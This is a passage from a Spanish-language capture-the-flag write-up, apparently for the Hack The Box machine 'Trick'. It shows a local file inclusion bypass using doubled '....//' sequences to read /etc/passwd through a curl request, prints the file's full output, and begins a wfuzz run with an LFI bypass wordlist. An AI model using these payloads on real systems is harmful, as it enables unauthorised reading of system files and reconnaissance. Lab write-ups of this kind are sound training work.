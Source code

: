 Como seguimos sin resultados aplicamos otro **bypass** que evade las restricciones del uso de `../` y las elmina. Por ello, lo que hacemos es duplicarlas para que quede como queremos:

```console
❯ curl http://preprod-marketing.trick.htb/index.php?page=....//....//....//etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
tss:x:105:111:TPM2 software stack,,,:/var/lib/tpm:/bin/false
dnsmasq:x:106:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
usbmux:x:107:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
rtkit:x:108:114:RealtimeKit,,,:/proc:/usr/sbin/nologin
pulse:x:109:118:PulseAudio daemon,,,:/var/run/pulse:/usr/sbin/nologin
speech-dispatcher:x:110:29:Speech Dispatcher,,,:/var/run/speech-dispatcher:/bin/false
avahi:x:111:120:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/usr/sbin/nologin
saned:x:112:121::/var/lib/saned:/usr/sbin/nologin
colord:x:113:122:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin
geoclue:x:114:123::/var/lib/geoclue:/usr/sbin/nologin
hplip:x:115:7:HPLIP system user,,,:/var/run/hplip:/bin/false
Debian-gdm:x:116:124:Gnome Display Manager:/var/lib/gdm3:/bin/false
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
mysql:x:117:125:MySQL Server,,,:/nonexistent:/bin/false
sshd:x:118:65534::/run/sshd:/usr/sbin/nologin
postfix:x:119:126::/var/spool/postfix:/usr/sbin/nologin
bind:x:120:128::/var/cache/bind:/usr/sbin/nologin
michael:x:1001:1001::/home/michael:/bin/bash <---- User!
```

En caso que quieras probar mas **byasses** de manera simultánea, puedes usar `wfuzz` con un directorio adecuado:

```console
❯ wfuzz -c -t 100 --hl=0 -w /usr/share/SecLists/Fuzzing/LFI/LFI-Jhaddix.txt http://preprod-marketing.trick.htb/index.php?page=FUZZ

********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://preprod-marketing.trick.htb/index.php?page=FUZZ
Total requests: 914

=====================================================================
```